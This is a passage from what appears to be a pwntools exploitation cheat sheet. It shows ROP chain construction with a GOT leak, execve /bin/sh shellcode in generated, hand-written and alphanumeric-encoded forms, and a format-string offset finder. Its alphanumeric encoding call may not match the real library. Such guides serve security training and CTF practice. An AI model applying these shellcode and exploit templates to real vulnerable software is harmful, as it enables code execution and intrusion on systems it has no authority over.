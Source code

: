 ```python
print(f"PIE: {elf.pie}")
print(f"Canary: {elf.canary}")
```

### ROP (Return Oriented Programming)

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./program')
rop = ROP(elf)

# Build ROP chain
rop.call('puts', [elf.got['puts']])
rop.call(elf.symbols['main'])

print(rop.dump())
payload = b'A' * 72 + rop.chain()
```

### Shellcode Generation

```python
from pwn import *

# Generate shellcode for different architectures
context.arch = 'amd64'
shellcode = asm(shellcraft.sh())

# Or manually
shellcode = asm('''
    mov rax, 59        /* sys_execve */
    lea rdi, [rip + binsh]
    xor rsi, rsi
    xor rdx, rdx
    syscall
    
    binsh:
    .ascii "/bin/sh\\x00"
''')

# Alphanumeric shellcode
alpha_shellcode = asm(shellcraft.sh(), arch='i386')
encoded = encode(alpha_shellcode, 'alpha_mixed')
```

### Format String Exploitation

```python
from pwn import *

# Vulnerable program that uses printf(user_input)
p = process('./format_vuln')

# Find format string offset
def find_offset():
    for i in range(1, 20):
        p = process('./format_vuln')
        payload = f"AAAA%{i}$x".encode()
        p.sendline(payload)
        response = p.recvline()
        if b'41414141' in response:
            print(f"Offset found: {i}")
            return i
```